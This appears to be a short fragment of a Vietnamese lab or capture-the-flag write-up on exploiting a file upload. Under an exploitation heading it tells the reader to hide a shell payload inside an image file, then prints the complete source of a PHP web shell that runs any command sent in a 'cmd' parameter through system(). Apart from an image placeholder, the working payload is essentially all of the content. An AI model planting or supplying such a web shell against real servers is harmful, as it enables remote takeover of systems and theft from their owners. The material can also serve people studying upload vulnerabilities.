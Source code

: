 ![alt text](image-43.png)

### Khai Thac
![alt text](image-44.png)

Giấu payload shell vào file ảnh
Noi dung payload 
```bash
html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
```